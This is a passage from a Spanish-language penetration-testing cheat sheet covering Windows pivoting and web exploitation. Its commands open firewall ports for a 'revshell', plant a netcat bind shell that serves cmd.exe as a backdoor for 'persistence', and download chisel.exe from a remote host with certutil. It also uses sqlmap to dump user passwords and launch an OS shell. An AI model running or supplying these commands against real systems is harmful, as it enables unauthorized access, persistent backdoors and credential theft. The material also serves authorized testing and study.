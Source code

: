 ### 6.7. Netsh

#### 6.7.1. Mostrar la configuración actual del reenvío de puertos. 

```powershell
netsh interface portproxy show all
```

#### 6.7.2. Port Forwarding

```powershell
netsh interface portproxy add v4tov4 listenport=4444 listenaddress=0.0.0.0 connectport=5555 connectaddress=0.0.0.0
```

#### 6.7.3. Abrimos el puerto en el FIREWALL

```powershell
netsh advfirewall firewall add rule name=revshell protocol=TCP dir=in localport=4444 action=allow (IN)
netsh advfirewall firewall add rule name=revshell protocol=TCP dir=out localport=4444 action=allow (OUT)
```

#### 6.7.4. Establecer una "persistencia" en Windows

Enviamos a segundo plano el proceso, abriendo un puerto para luego tener acceso más facil.

```powershell
start "" /B nc.exe -l -p 10000 -e cmd.exe
```

```bash
proxychains rlwrap nc 10.10.10.6 -p 10000
```

#### 6.7.5. Descargar un archivo desde Windows

```powershell
ceretutil -split -urlcache -f http://192.168.1.10/chisel.exe chisel.exe
```

### 7. Explotación Web

#### SQLMap (SQL Injection)

```bash
$ sqlmap -u <URL> -p <PARAMETER> [options]
```

```bash
$ sqlmap -u http://192.168.1.10/index.php?id=10 --dbs                                           # Lista todas las base de datos
$ sqlmap -u http://192.168.1.10/index.php?id=10 -D test --tables                                # Muestra todas las tablas en la base de datos
$ sqlmap -u http://192.168.1.10/index.php?id=10 -D test -T users --columns                      # Lista todas las columnas
$ sqlmap -u http://192.168.1.10/index.php?id=10 -D test -T users -C admin,password,email --dump # Muestra los valores de las columnas indicadas
$ sqlmap -u 'http://192.168.1.10/index.php?id=10' -p id --technique-U                           # Enumera el parámetro id usando la técnica union
$ sqlmap -u 'http://192.168.1.10/index.php?id=31' --dump                                        # Devulve el contenido de la base de datos 
$ sqlmap -u 'http://192.168.1.10/index.php?id=7' -os-shell                                      # Lanza un prompt interativo
```
